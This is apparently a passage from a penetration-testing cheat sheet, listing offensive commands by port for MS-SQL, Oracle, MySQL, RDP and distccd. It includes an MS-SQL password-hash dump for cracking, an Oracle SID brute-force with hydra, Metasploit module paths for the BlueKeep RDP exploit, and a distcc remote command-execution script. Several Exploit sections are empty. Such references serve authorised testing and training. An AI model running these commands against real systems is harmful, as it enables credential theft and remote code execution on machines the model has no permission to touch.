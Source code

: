```bash
#Dumps the password hashes from an MS-SQL server in a format suitable for cracking by tools such as John-the-ripper
nmap --script ms-sql-dump-hashes --script-args mssql.username=<username>,mssql.pass=<password> <IP address> -p 1433
```

```bash
#Sometimes database is only listening for local connections, use following command to check for existence
netstat -tlnpu
ss -tlnpu
```
- <mark>Exploit</mark>
```bash

```
### Port-1521-Oracle TNS Listener
 - <mark>Reconnaissance</mark>
```bash
#SID Bruteforce
hydra -L /usr/share/metasploit-framework/data/wordlists/sid.txt -s 1521 <IP> oracle-sid
```
### Port-3306-MySQL
- <mark>Reconnaissance</mark>
```bash
#Checks for MySQL servers with an empty password for root or anonymous
nmap --script mysql-empty-password <IP address> -p 3306
```

```bash
#Sometimes database is only listening for local connections, use following command to check for existence
netstat -tlnpu
ss -tlnpu
```
- <mark>Exploit</mark>
```bash

```
### Port-3389-RDP
- <mark>Reconnaissance</mark>
```bash
#Windows CVE-2019-0708 RDP Vulnerability(BlueKeep)
auxiliary/scanner/rdp/cve-2019-0708_bluekeep
```
- <mark>Exploit</mark>
```bash
#Windows CVE-2019-0708 RDP Vulnerability(BlueKeep)
exploit/windows/rdp/cve-2019-0708_bluekeep
```
### Port-3632-distccd
- <mark>Reconnaissance</mark>
```bash
nmap -Pn  --script distcc-cve2004-2687 --script-args="distcc-cve2004-2687.cmd='<command>'" <target> -p 3632
```
- <mark>Exploit</mark>
```bash
```
### Port-5985-WinRM
- <mark>Reconnaissance</mark>
```bash

```
- <mark>Exploit</mark>